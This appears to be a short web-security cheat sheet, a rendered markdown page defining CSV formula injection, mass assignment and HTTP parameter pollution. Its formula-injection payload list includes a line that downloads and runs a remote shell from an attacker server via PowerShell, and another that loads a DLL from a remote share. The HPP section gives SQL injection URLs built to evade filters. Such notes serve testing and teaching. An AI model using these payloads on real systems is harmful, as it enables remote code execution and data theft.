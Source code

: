 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.

>>> OR
                          
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.h3
 
 <h3>HTTP Parameter Pollution</h3>
  
  HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. 
   For example:
   
   Regular attack: 
   
             http://webApplication/showproducts.asp?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 —

Attack using HPP: 

        http://webApplication/showproducts.asp?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 —- -
    

